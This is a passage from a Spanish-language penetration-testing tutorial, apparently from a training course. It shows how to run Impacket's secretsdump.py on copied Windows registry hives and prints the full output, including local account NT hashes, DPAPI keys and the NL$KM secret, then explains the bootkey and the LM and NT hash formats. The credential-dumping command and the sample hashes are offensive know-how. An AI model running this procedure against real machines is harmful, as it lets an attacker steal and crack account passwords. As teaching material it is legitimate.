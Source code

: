 Usar secretsdump.py es un proceso simple. Todo lo que debemos hacer es ejecutar secretsdump.py usando Python, luego especificar cada archivo de colmena que recuperamos del host objetivo.

### Running secretsdump.py

```r
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4d8c7cff8a543fbf245a363d2ffce518
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$

KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```

Aquí vemos que secretsdump pudo descargar con éxito los `local SAM hashes` y también habría descargado la información de inicio de sesión de dominio en caché si el objetivo estaba unido a un dominio y tenía credenciales almacenadas en caché presentes en `hklm\security`. Observa que el primer paso que ejecuta secretsdump es dirigirse al `system bootkey` antes de proceder a descargar los `LOCAL SAM hashes`. No puede descargar esos hashes sin la clave de arranque porque esa clave de arranque se utiliza para cifrar y descifrar la base de datos SAM, razón por la cual es importante que tengamos copias de las colmenas del registro que discutimos anteriormente en esta sección. Observa en la parte superior de la salida de secretsdump.py:

```r
Dumping local SAM hashes (uid:rid:lmhash:nthash)
```

Esto nos indica cómo leer la salida y qué hashes podemos descifrar. La mayoría de los sistemas operativos Windows modernos almacenan la contraseña como un hash NT. Los sistemas operativos anteriores a Windows Vista y Windows Server 2008 almacenan las contraseñas como un hash LM, por lo que solo podríamos beneficiarnos de descifrar esos si nuestro objetivo es un sistema Windows más antiguo.
